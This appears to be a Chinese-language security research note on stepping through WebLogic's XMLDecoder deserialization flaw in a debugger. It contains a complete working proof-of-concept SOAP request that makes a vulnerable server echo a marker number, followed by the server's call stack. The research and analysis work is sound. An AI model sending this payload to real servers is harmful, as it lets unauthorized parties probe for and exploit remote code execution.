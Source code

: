 weblogic的漏洞中反序列化占大头，反序列化漏洞大体上又分为两类，一类是T3协议，另一类也是T3是XMLDeocder。此外，还有xxe、文件上传等等漏洞。

weblogic 单步调试


先获取xray 一份poc(网上其他任意poc均可)，burp发包，响应里显示了java调用栈，获取 gadget(调用链)。


	POST /wls-wsat/CoordinatorPortType HTTP/1.1
	Host: 172.16.1.9:7001
	Content-Type: text/xml
	Content-Length: 875
	
	<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java><void class="java.lang.Thread" method="currentThread"><void method="getCurrentWork"><void method="getResponse"><void method="getServletOutputStream"><void method="write"><array class="byte" length="9"><void index="0"><byte>50</byte></void><void index="1"><byte>50</byte></void><void index="2"><byte>53</byte></void><void index="3"><byte>55</byte></void><void index="4"><byte>55</byte></void><void index="5"><byte>51</byte></void><void index="6"><byte>48</byte></void><void index="7"><byte>57</byte></void><void index="8"><byte>49</byte></void></array></void><void method="flush"/></void></void></void></void></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope></soapenv:Envelope>



![](1.jpg)

这个poc 如果出现 225773091 代表存在漏洞。记录gadget，这里我直接复制下来一段调用栈。



	processRequest:43, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
	__doRun:866, Fiber (com.sun.xml.ws.api.pipe)
	_doRun:815, Fiber (com.sun.xml.ws.api.pipe)
	doRun:778, Fiber (com.sun.xml.ws.api.pipe)
	runSync:680, Fiber (com.sun.xml.ws.api.pipe)
	process:403, WSEndpointImpl$2 (com.sun.xml.ws.server)
	handle:539, HttpAdapter$HttpToolkit (com.sun.xml.ws.transport.http)
	handle:253, HttpAdapter (com.sun.xml.ws.transport.http)
	handle:140, ServletAdapter (com.sun.xml.ws.transport.http.servlet)
	handle:171, WLSServletAdapter (weblogic.wsee.jaxws)
	run:708, HttpServletAdapter$AuthorizedInvoke (weblogic.wsee.jaxws)
	doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
	runAs:146, SecurityManager (weblogic.security.service)
	authenticatedInvoke:103, ServerSecurityHelper (weblogic.wsee.util)
	run:311, HttpServletAdapter$3 (weblogic.wsee.jaxws)
	post:336, HttpServletAdapter (weblogic.wsee.jaxws)
	doRequest:99, JAXWSServlet (weblogic.wsee.jaxws)
	service:99, AbstractAsyncServlet (weblogic.servlet.http)
	service:820, HttpServlet (javax.servlet.http)
	run:227, StubSecurityHelper$ServletServiceAction (weblogic.servlet.internal)
	invokeServlet:125, StubSecurityHelper (weblogic.servlet.internal)